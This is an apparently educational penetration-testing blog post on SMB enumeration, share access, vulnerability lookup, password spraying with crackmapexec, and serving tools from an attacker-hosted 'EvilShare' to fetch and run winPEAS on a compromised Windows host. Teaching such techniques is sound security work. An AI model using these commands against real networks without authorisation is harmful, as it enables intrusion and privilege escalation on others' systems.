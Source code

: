 # SMB Enumeration & Interaction


# What is SMB?
{{< admonition type=info open=true >}}
Server Message Block (SMB)
{{< /admonition >}}
SMB has a pretty bad rep in regards to security espically with the recent, 2017, infamous exploit EternalBlue [CVE-2017-0144](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144).

But how can you find it, exploit it, and even use it to help with a red team engagement? Lets find out.
## Enumerating
Before you can do anything you need to discover shares on the network. From here you can try to see if any shares allow anonymous access or what restricted share exists. SMB can also disclose information about the host such as the operating system and current version.
### nmap
we can use nmap to scan across a network to try discover hosts with port 139 which is for the NetBIOS protocol which is a session layer allowing computers on a local network to talk with one another and port 445 for SMB.
{{< admonition type=note open=true >}}
It should be noted that SMB can work without NetBIOS but it is usually enabled for backwards compatibility.
{{< /admonition >}}
We've been tasked to complete a peneration test on the /24 network located at 10.10.10.1 using nmap to find smb will look like this:
```bash
nmap -p 139,445 10.10.10.1/24
```
This will return back a list of hosts that have those ports open.

### Discovering file sharing
Now we have a list of hosts with shares lets see if we can access them via anonymous sessions.
#### smbmap
[smbmap](https://github.com/ShawnDEvans/smbmap) is a great tool for listing out different shares on an SMB server to do so is as easy as passing it the IP address of the host.
```bash
smbmap -H 10.10.10.23
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.23...
[+] IP: 10.10.10.23:445	Name: hack.me
	Disk                                Permissions	    Comment
	----                                -----------	    -------
	ADMIN$                              NO ACCESS	    Remote Admin
	C$                                  NO ACCESS	    Default share
	IPC$                                NO ACCESS	    Remote IPC
	Users                               READ, WRITE
```
From this output we can see there exists several shares, *ADMIN*, *C*, *IPC* and *Users*. We can see via our anonymous access, we never gave smbmap a username and password, that we have read and write access to the *Users* share.

smbmap supports loads more features including specifying usernames and passwords and even executing commands!
#### smbclient
Another tool I really like to use is smbclient which is part of the fantastic [impacket](https://github.com/SecureAuthCorp/impacket) library.

To list share it's as simple as this:
```bash
echo exit | smbclient -L 10.10.10.23
```
{{< admonition type=note open=true >}}
Piping exit to smb client closes the password request as we're only looking for anonymous sessions at the moment
{{< /admonition >}}
You should recieve an output similar to smbmap. Again smbclient has many more features than just listing the shares. We will use it further on in this article for actually connecting to the share and interacting with it.

### Discovering SMB vulnrabilties
{{< figure src="https://thumbs.gfycat.com/JitteryPlasticBactrian-size_restricted.gif" title="nmap cameo appearence" >}}
There's a wealth of vulnrabilites with SMB and a lot of imformation out there on what version has which exploit. To quickly discover potentially exploits I like two methods.

#### Searchsploit
Searchsploit is a handy little cli tool. Passing searchsploit a software and a version will return a list of known exploits.

```bash
searchsploit smb 2.1
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
MikroTik RouterOS < 6.41.3/6.42rc27 - SMB Buf | hardware/remote/44290.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
A feature I love is ability to quickly *mirror* the result to my working directory. In the above snippet I an see a python file has been found. I can quickly copy it with the `-m` flag or if I want to quickly examine it `-x`.

```bash
searchspoit -m 44290
```

#### nmap scripting engine
Using nmaps scripting engine we can have it run scripts in hopes to discover potential vulnrabilties and get a wealth of information on them. Using a `*` is a good trick here to run all scripts related to smb vulns.

```bash
nmap -p 139,445 --script smb-vuln* 10.10.10.23
```

{{< admonition type=warning open=true >}}
We should avoid the usage of the `unsafe=1` flag with nmap as it's almost guerenteed to cause the host to crash.
{{< /admonition >}}

## Gaining access
If I find some creds in LDAP or via someother means and prehaps some potential users names. Which could be found from company email address or looking on website such as linked in for employees of a company. We could create a username and password lists. Using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) I can quickly spray all permutations of usernames and passwords to see if i can gain authenticated access to shares.

```bash
crackmapexec smb 10.10.10.23 -u user.list -p password.list
```
## Interacting with a SMB share
As privously mentioned smbclient has additional features those include actually interacting with shares.

```bash
smbclient \\\\10.10.10.23\\Users
smb:\>
```
I can now use normal commands such as `cd` `ls` and `get` to download a remote file or `put` to upload a file from my working directory to the share.


## Using your own SMB share to transfer files to a windows host
Okay, you've establised a foothold on a windows machine and now you want to copy over your tools such as [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to discover low hanging fruit that could esculate our privileges. We can use the hosts `cmd.exe` `copy` command to grab files from our own share.

[impacket](https://github.com/SecureAuthCorp/impacket) comes with it's own smbserver. Lets create a share on our Kali machine by spesifying the share name and the directory to mount to it.

```bash
smbserver EvilShare /opt/tools
```

Now lets copy over winPEAS from the share where the IP address is the IP of our Kali machine.

```dos
C:\> copy \\10.10.11.2\EvilShare\winPEAS.exe .
```

We can also directly execute the binary straight from the share.
```dos
C:\>  \\10.10.11.2\EvilShare\winPEAS.exe
```

## In Summary
SMB might not always be exploitable but it can still be a power tool for not only extracting data from a host but we can also use it for transfering our own data from our local machine to a windows host.

I think you should always get excited if you see smb is open on a machine and it is always a good place to start enumerating futher. I hope this post helps facilitate that.

